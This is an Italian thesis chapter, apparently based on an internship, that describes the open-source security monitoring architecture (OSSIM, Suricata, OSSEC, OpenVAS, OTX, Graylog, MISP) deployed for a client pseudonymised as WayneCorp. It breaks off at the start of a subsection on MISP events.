\chapter{Caso di studio: WayneCorp.}
\label{chap:Caso d'uso: WayneCorp.}

Come già anticipato nel capitolo 1, l’emergenza COVID ha portato un elevata attività criminale nel cyber spazio, sfruttando lo smartworking come spiraglio di accesso alle reti aziendali.\par
Durante il periodo di stage ho partecipato alle attività del SOC team di Nais dove ho potuto assistere e contrastare in prima linea le minacce conseguenti alla pandemia.\par
Ho avuto la possibilità di osservare diverse realtà e dimensioni identificandone le criticità e le logiche dietro le quinte, utilizzando diversi software SIEM tra cui QRadar e Ossim.\par
Nel corso del lockdown ricevendo moltissime segnalazioni, soprattutto di tipo phishing, mi sono occupato di allestire e configurare la piattaforma di threat intelligence MISP permettendo un atteggiamento proattivo contro tutte le minacce correlate al Covid (e non solo).\par
In questo capitolo verrà descritta l’architettura di monitoraggio di un cliente in particolare, che per ragioni di riservatezza chiamerò WayneCorp.\par
Inoltre verranno descritti due casi reali di tentativi di attacco, dimostrando l’importanza dell'intelligence durante la detenction, l’analisi e la gestione di eventi di sicurezza.

\section{Architettura soluzione adottata}


La WayneCorp, possiede una network di circa 60 server e circa 600 client, organizzata tramite Active Directory, grazie alla sua dimensione è stato possibile proporre una soluzione completamente opensource.\par

L’architettura comprende i seguenti strumenti: 
\begin{itemize}
    \item\textbf{AlienVault OSSIM:} Utilizzato per il SIEM;
    \item\textbf{Graylog:} Utilizzato per il log management;
    \item\textbf{MISP:} Utilizzato per arricchire la componente di intelligence;
\end{itemize}

\newpage

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/architettura_wayneCorp.png}
    \end{center}
    \caption{Diagramma architettura soluzione di sicurezza per la WayneCorp.}
    \label{fig:Diagramma architettura soluzione di sicurezza per la WayneCorp.}
\end{figure}

\newpage

\section{SIEM: AlienVault OSSIM}


OSSIM è un software SIEM open source, come dice l'acronimo: Open Source Security Information Manager, sviluppato dall’azienda AlienVault (dal 2018 acquisita da AT\&T).\par

l’appliance è la combinazione di diverse tecnologie:

\begin{itemize}
    \item\textbf{IDS:} Suricata per NIDS e Ossec per HIDS;
    \item\textbf{Vulnerability assessment(VA):} Scanner OpenVAS;
    \item\textbf{Threat Intelligence:} AlienVault OTX piattaforma di threat intelligence(OSINT);
\end{itemize}


\subsection{Nework IDS: Suricata}

Come NIDS OSSIM utilizza Suricata, un engine IDPS di carattere principalmente network based.\par
Suricata è un motore IDS che utilizza set di regole per monitorare il traffico di rete e attiva avvisi quando si verificano eventi sospetti. Suricata offre un motore a thread multipli e può quindi eseguire l'analisi del traffico di rete con maggiore velocità ed efficienza.\par
Il progetto, in accordo con la direzione della OISF, è open source e la data di rilascio nella sua prima versione è stata nel corso di dicembre 2009.\par
Le regole Suricata inerenti un determinato argomento di sicurezza vengono organizzate all'interno di file con estensione .rules, prendendo il nome di ruleset. 

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/suricataRuleSet.png}
    \end{center}
    \caption{File .rules contenente la ista di regole Suricata fornite da EmergingThreats}
    \label{fig:File .rules contenente la ista di regole Suricata fornite da EmergingThreats}
\end{figure}

\newpage

All’interno del file rule-file.yaml nella directory /etc/suricata vengono indicati quali ruleset suricata deve utilizzare per effettuare la detection e la conseguente generazione di eventi SIEM su OSSIM.

 \begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/suricataYaml.png}
    \end{center}
    \caption{File rule-file.yaml contenente la lista di ruleset attive}
    \label{fig:File rule-file.yaml contenente la lista di ruleset attive}
\end{figure}

Per la WayneCorp. è stato configurato un port mirroring verso il sensore di OSSIM, permettendo a Suricata di monitorare il netflow e generare eventi se una regola IDS viene attivata.

\subsection{Host IDS: OSSEC}

AlienVault utilizza OSSEC HIDS per il rilevamento delle intrusioni degli host.\par
OSSEC è un host-based intrusion detection system (HIDS) opensource ovvero un software in grado di monitorare il funzionamento di un sistema "dal suo interno", anziché ricorrere all'uso delle interfacce di rete (come nel caso di Suricata).
Tramite gli agent, installati sulle macchine, vengono inviati i log al server OSSEC e tramite un insieme di regole, in caso di anomalie vengono generati degli allarmi.\par
In generale l’agent è in grado di:

\begin{itemize}
    \item Verificare l'integrità dei file memorizzati su disco;
    \item Controllare la presenza di rootkit;
    \item Tenere traccia delle performance;
\end{itemize}

\newpage

Nella directory /var/ossec/etc è presente il file ossec.conf dove vengono definiti tutti i parametri necessari al server OSSEC per effettuare il monitoring degli host, in particolare:

\begin{itemize}
    \item Vengono definiti i path dei log da monitoare sulla macchina:
            \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/ossecAgent.png}
            \end{center}
            \caption{Porzione file di configurazione ossec.conf, definisce dove prelevare i log di apache}
            \label{fig:Porzione file di configurazione ossec.conf, definisce dove prelevare i log di apache}
             \end{figure}
    \item La lista di ruleset di detection:
            \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.80\columnwidth]{images/4_caso_d'uso_img/ossecRuleset.png}
            \end{center}
            \caption{Porzione file di configurazione ossec.conf, definisce la ruleset di detection da prelevare}
            \label{fig:Porzione file di configurazione ossec.conf, definisce la ruleset  di detection da prelevare}
             \end{figure}
\end{itemize}

\newpage

Nel caso in cui un log attiva una regola, viene generato un allarme e scritto l’output nel file alert.log presente nella directory /var/ossec/logs/alerts:

         \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/alertLog.png}
            \end{center}
            \caption{Porzione file alert.log in /var/ossec/logs/alerts}
            \label{fig:Porzione file alert.log in /var/ossec/logs/alerts}
        \end{figure}
             
             

OSSIM rimane in lettura del file alert.log e tramite un processo di normalizzazione genera il conseguente evento SIEM.\par
Per la WayneCorp. sono stati installati gli agent OSSEC su tutto il parco sever.

\subsection{Vulnerability assessment(VA): OpenVAS}

OSSIM possiede anche un modulo di Vulnerability assessment utilizzando OpenVAS.\par

OpenVAS (Open Vulnerability Assessment System) è l’evoluzione Open Source del framework Nessus, uno dei più importanti security scanner, distribuito come software proprietario.\par
OpenVAS è un software libero distribuito sotto licenza GPL, in grado di effettuare scansioni di un sistema alla ricerca di vulnerabilità, il tool si basa su un database contenente le principali vulnerabilità le quali verranno analizzate ogni qual volta si trovi un servizio in ascolto sul target.\par
Per la WayneCorp. sono stati schedulati scan automatici, con cadenza settimanale, su macchine perimetrali soggette a un maggior rischio.\par
A seguito di uno scan, se viene segnalata la presenza di una  vulnerabilita’, procediamo ad analizzare il traffico della macchina vulnerabile, per verificarne l'integrità.

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/openVAsReport.png}
            \end{center}
            \caption{Report VA generato dal modulo OpenVAS}
            \label{fig:Report VA generato dal modulo OpenVAS}
        \end{figure}
        
\newpage

\subsection{CTI: AlienVault Open Threat Exchange (OTX)}

OTX è una piattaforma opensource di threat intelligence utilizzata da OSSIM.
L’elemento di intelligence, presente su OTX, prende il nome “pulse”, il quale fornisce un modello della minaccia, elencando tutti gli artefatti utilizzati e la killchain per compiere un determinato attacco.\par
Le informazioni su OTX, sono di tipo OSINT e possono essere scaricate tramite una subscription.\par Eseguita la subscriptiion OTX oltre a fornire la lista di IoC, fornisce a OSSIM le regole per rilevarne la presenza nella network monitorata: 

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/OTXpulse.png}
            \end{center}
            \caption{Pulse OTX : MAR-10310246-1.v1 – ZEBROCY Backdoor}
            \label{fig:Pulse OTX : MAR-10310246-1.v1 – ZEBROCY Backdoor}
        \end{figure}



OSSIM durante l’analisi del netflow se rileva all'interno del pacchetto la presenza di un IoC, appartenente ad un pulse sottoscritto, genera l’allarme e avvia la correlazione degli eventi coinvolti. \par
Per la WayneCorp. sono state eseguite le subscription per i pulse più inerenti al contesto e al tipo di minacce a cui è più soggetto.

\newpage


\section{Log manager: Graylog}


OSSIM a differenza di altri SIEM commerciali non possiede la componente di log manager, per compensare abbiamo configurato Graylog.\par
Graylog è una piattaforma opensource di log management, composto dai seguenti componenti:

\begin{itemize}
    \item\textbf{Elasticsearch:} Memorizza tutti i messagi in ingresso e fornisce un motore di indicizzazione e ricerca dei dati;
    \item\textbf{MongoDB:} Memorizza tutte le configurazioni necessarie per il funzionamento dell'appliance;
    \item\textbf{Graylog server:} Fornisce un interfaccia web per l’analisi e il monitoraggio;
\end{itemize}

  \begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.60\columnwidth]{images/4_caso_d'uso_img/glArch.png}
            \end{center}
            \caption{Architettura Graylog}
            \label{fig:Architettura Graylog}
    \end{figure}
        
Graylog server, legge i dati archiviati su Elasticsearch e tramite un'interfaccia web visualizza i dati permettendone l’analisi e il monitoraggio.\par
Per il Graylog della WayneCorp. sono stati configurati in input alcuni oggetti strategici tra cui i firewall perimetrali Cisco ASA e i domain controler Windows.\par
Graylog offre la possibilità di generare stream di dati, sostanzalmente un flusso dati filtrati secondo una certa proprietà.

\newpage

Per la WayneCorp sono stati configurati diversi stream tra cui uno in particolarmente utile che filtra tutti i log di  tipo “traffic denied”(ASA-4-106023) del firewall Cisco ASA, consentendoci di analizzare quali pacchetti sono stati droppati e per quale ragione. Inoltre abbiamo attivato il modulo di Threat Intelligence per lo stream di “traffic denied”, permettendo tramite un mapping di arricchire il log in input.\par

Fondamentalmente nel momento in cui arriva un log, il modulo analizza il message, estrapola gli IP ed esegue delle query a source di threat intelligence:

\begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.90\columnwidth]{images/4_caso_d'uso_img/intelGL.png}
            \end{center}
            \caption{Regola lookup di thret intel sul campo src\_ip del message}
            \label{fig:Regola lookup di thret intel sul campo srcip del message}
    \end{figure}
    
Con questo meccanismo è possibile aggiungere informazioni al log, come la geolocalizzazzione degli IP oppure se gli IP sono presenti in qualche blacklist .\par
Grazie a Graylog e alle informazioni aggiunte tramite le lookup table è stato possibile generare delle dashboard di threat intelligence, in grado di evidenziale quali IP malevoli comunicano più frequentemente con la network e da quale posizione geografica:
    
\begin{figure}[h]
            \begin{center}
                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/dashboardGL.png}
            \end{center}
            \caption{Dashboard threat intelligence Graylog}
            \label{fig:Dashboard threat intelligence Graylog}
    \end{figure}
    
\newpage
    
\section{Malware Information Sharing Platform: MISP}
    
MISP (Malware Information Sharing Platform) è una piattaforma opensource che permette la condivisione di caratteristiche tecniche di malware e minacce all'interno di una comunità di fiducia, senza dover condividere informazioni sul contesto del incidente.\par
MISP fornisce anche meccanismi di automazione che consentono: l'importazione, l'esportazione dei dati in modo automatico e l'integrazione con altri sistemi (es. SIEM, NGAV, ecc..).\par
L'obiettivo della piattaforma è accelerare il rilevamento degli incidenti e la produzione di contromisure di difesa, soprattutto per le minacce zeroday o non ancora riconosciute dai sistemi di detection.\par
Esistono diverse istanze MISP pubbliche gestite da enti privati o istituzionali che concedono l’accesso alla propria piattaforma, creando delle comunità di organizzazioni e utenti che condividono informazioni.\par
Ogni comunità possiede delle regole specifiche per l’iscrizione di nuovi utenti, per esempio, devono rispettare dei protocolli di comunicazione specifici.\par
Di seguito una breve panoramica di alcune comunità esistenti, le rispettive comunità si caratterizzano in base al tipo e al contesto di informazioni condivise:

\begin{itemize}
    \item\textbf{NATO MISP Community:} Istanza MISP utilizzata dalla NATO;
     \item\textbf{MISP COVID-19 Community:} Istanza MISP adattata per la condivisione di informazioni relative al COVID-19. Si concentra su due aree di condivisione: Informazioni mediche, Minacce informatiche e fake news su COVID-19.
     \item\textbf{CIRCL MISP Community:} CIRCL è un CERT che opera nel settore privato e per enti non governativi di Lussemburgo, in questa istanza collaborano più di 1200 organizzazioni europee dove vengono condivise analisi e indicatori di attività malevole.
\end{itemize}

\newpage

Queste comunità di solito permettono ai loro membri di  accedere all'interfaccia MISP dell'istanza pubblica o di sincronizzarsi con la propria istanza MISP privata:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/sunchMISP.png}
    \end{center}
    \caption{Rappresentazione grafica logica di condivisione tra istanze MISP}
    \label{fig:Rappresentazione grafica logica di condivisione tra istanze MISP}
\end{figure}

Durante lo stage mi sono occupato anche di allestire un’istanza MISP per Nais e ho richiesto l’accesso a 2 istanze pubbliche per accedere alle relative community poter ricevere e condividere informazioni:

\begin{itemize}
    \item Istanza MISP CIRCL; 
    \item Istanza MISP COVID-19;
\end{itemize}

\newpage

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/cirl.png}
    \end{center}
    \caption{Dashboard MISP CIRL}
    \label{fig:Dashboard MISP CIRL}
\end{figure}
        
\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/covid.png}
    \end{center}
    \caption{Dashboard MISP COVID-19}
    \label{fig:Dashboard MISP COVID-19}
\end{figure}       

\newpage

Per l’istanza COVID è stato molto interessante osservare come uno strumento nato per la cybersecurity sia stato declinato a ricevere anche tipologie di dati fuori dal contesto, come indici dei contagi e segnalazioni di fake news.\par
Per l’accesso alle istanze MISP sopracitate ho seguito la procedura richiesta che consisteva nella prima fase di presentare la propria organizzazione e specificare quale tipo di informazioni potevamo condividere.\par
Nella seconda fase è avvenuto lo scambio di chiavi pubbliche PGP, per avviare un canale di comunicazione cifrato e sicuro. Completata questa fase i relativi admin delle istanze ci hanno creato un utenza con privilegi particolari, permettendoci di sincronizzare le istanze remote con la nostra.\par
Il vantaggio di possedere un’istanza privata consiste nell’avere pieno controllo sulle fonti e dal tipo di eventi ricevuti.\par
Grazie alla sincornizzazione è stato possibile ricevere informazioni e analisi da altre organizzazioni della comunity, filtrate per i contesti di nostro interesse, permettendoci di informare i clienti di nuove campagne di phishing e di addestrare gli strumenti di detecion, con atteggiamento proattivo.

\subsection{Eventi}

Gli eventi sono le entità che popolano la piattaforma, sono da considerare come scatole vuote da riempire con attributi.

\begin{figure}[h]
    \begin{center}
